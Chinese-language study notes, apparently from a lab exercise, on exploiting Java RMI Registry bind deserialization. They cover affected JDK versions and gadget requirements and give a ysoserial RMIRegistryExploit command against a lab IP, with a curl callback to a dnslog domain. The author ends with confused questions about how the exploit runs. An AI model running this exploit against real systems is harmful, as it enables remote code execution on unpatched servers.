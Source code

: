 java-rmi-registry-bind-deserialization-bypass 代码执行

描述: Java Remote Method Invocation 用于在Java中进行远程调用。RMI存在远程bind的功能(虽然大多数情况不允许远程bind)，在bind过程中，伪造Registry接收到的序列化数据(实现了Remote接口或动态代理了实现了Remote接口的对象)，使Registry在对数据进行反序列化时触发相应的利用链(环境用的是commons-collections:3.2.1).

JDK版本限制 Java SE <= 6u131, <= 7u121, <= 8u112, Java SE Embedded <= 8u111, JRockit <= R28.3.12

上面这一条是漏洞刚爆出时的版本说明。由于漏洞修复方案不停地被绕过，直到8u241之前的所有版本，仍然可利用这个RMI Registry相关的漏洞。

漏洞利用条件

JDK <=8u112，可直接利用；8u112 < JDK < 8u241 利用方式需要反链恶意JRMP服务端，所以需要目标服务器能访问攻击者控制的服务器。

目标服务器引用了gadget所需要的第三方jar包

对于加载远程类(使用JNDI reference，结合RMI，LDAP实现；或者利用RMI的codebase特性)的问题尚未明确。留待后续文章中说明。



利用：kali执行命令，使用yso，自行修改IP和DNS地址

现在dnslog生成一个DNShttp://www.dnslog.cn/

```bash
java -cp ysoserial-master-30099844c6-1.jar ysoserial.exploit.RMIRegistryExploit 192.168.1.192 1099 CommonsCollections6 "curl fpmprg.dnslog.cn"
```

![image-20211029210509330](C:\Users\e'e't\AppData\Roaming\Typora\typora-user-images\image-20211029210509330.png)

为啥这个exp要在靶机上执行yso？？？

java反序列化都是这样吗？   不应该是在我本地运行生成反序列化payload，然后post包上去？

如果我都能进入机器运行这个包了，那我还本地执行yso去干嘛？

